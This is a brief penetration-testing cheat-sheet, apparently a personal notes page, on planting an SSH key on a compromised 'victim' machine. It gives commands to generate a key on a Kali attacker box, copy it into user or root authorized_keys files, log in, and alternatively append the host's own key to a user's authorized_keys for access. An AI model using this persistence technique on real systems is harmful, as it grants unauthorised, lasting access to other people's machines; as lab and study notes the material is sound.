 # Adding SSH key to Victim

### On Attacker

* Create SSH key:
  * Private key location: `/home/kali/.ssh/id_rsa`&#x20;
  * Public key location: `/home/kali/.ssh/id_rsa.pub`

```bash
ssh-keygen
```

```bash
chmod 600 /home/kali/.ssh/id_rsa
```

### On Victim

* Transfer the `/home/kali/.ssh/id_rsa.pub` to authorized\_keys file
  * Locations:
    * &#x20;`/home/user/.ssh/authorized_keys`
    * `/root/.ssh/authorized_keys`

### Logging in

```bash
$ ssh -i /home/kali/id_rsa user@host
```

## ORRRR IF SSH KEY ALR EXISTS ON THE COMPROMISED MACHINE --> ADD USER'S AUTHORIZED KEYS --> SSH AS USER

```bash
cat /etc/ssh/ssh_host_rsa_key.pub >> /home/pete@complyedge.com/.ssh/authorized_keys
# Private key: /etc/ssh/ssh_host_rsa_key
```





